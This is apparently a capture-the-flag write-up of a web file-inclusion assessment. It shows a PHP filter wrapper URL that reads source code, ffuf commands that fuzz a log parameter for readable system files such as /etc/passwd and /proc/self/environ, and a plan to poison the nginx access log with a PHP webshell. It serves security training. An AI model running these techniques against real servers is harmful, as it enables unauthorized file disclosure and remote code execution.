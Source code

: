 # Assessment

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption><p>page parameter</p></figcaption></figure>

* Can't include /etc/passwd
* Can't ffuf for valid files
* had to use PHP wrapper to view source code

```
view-source:http://46.101.95.166:30586/index.php?page=php://filter/read=convert.base64-encode/resource=index
```

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption><p>ilf_admin/index.php</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption><p>log parameter seems to be including files</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (19) (3).png" alt=""><figcaption><p>included file</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption><p>No session values found so is not php session poisoning</p></figcaption></figure>

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://46.101.95.166:30586/ilf_admin/index.php?log=FUZZ' -c 
```

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt:FUZZ -u 'http://46.101.95.166:30647/ilf_admin/index.php?log=../../../../../../../../../../FUZZ' -c -fs 2046

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://46.101.95.166:30647/ilf_admin/index.php?log=../../../../../../../../../../FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 2046
________________________________________________

    * FUZZ: /etc/passwd
    * FUZZ: /etc/inittab
    * FUZZ: /etc/hosts
    * FUZZ: /etc/fstab
    * FUZZ: /etc/issue
    * FUZZ: /etc/mtab]
    * FUZZ: /etc/motd
    * FUZZ: /etc/resolv.conf
    * FUZZ: /etc/profile
    * FUZZ: /proc/cpuinfo
    * FUZZ: /proc/ioports
    * FUZZ: /proc/filesystems
    * FUZZ: /proc/interrupts
    * FUZZ: /proc/meminfo
    * FUZZ: /proc/stat
    * FUZZ: /proc/mounts
    * FUZZ: /proc/swaps
    * FUZZ: /proc/self/net/arp
    * FUZZ: /proc/version
    * FUZZ: /proc/modules
    * FUZZ: /etc/ca-certificates.conf
    * FUZZ: /etc/group-
    * FUZZ: /etc/group
    * FUZZ: /etc/hostname
    * FUZZ: /etc/modules
    * FUZZ: /etc/passwd-
    * FUZZ: /etc/nginx/nginx.conf
    * FUZZ: /etc/os-release
    * FUZZ: /etc/sysctl.conf
    * FUZZ: /proc/devices
    * FUZZ: /proc/net/udp
    * FUZZ: /proc/self/cmdline
    * FUZZ: /proc/self/environ
    * FUZZ: /proc/self/mounts
    * FUZZ: /proc/self/stat
    * FUZZ: /proc/self/status
    * FUZZ: /proc/net/tcp
    * FUZZ: /var/log/nginx/access.log
    * FUZZ: /var/log/nginx/error.log
```

Above are list of files that were accessible

to perform server log poisoning we need access to access.log file&#x20;

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption><p>../../../../../var/log/nginx/access.log</p></figcaption></figure>

now we can try to edit the header to php webshell.

<figure><img src="../../.gitbook/assets/image (79) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>


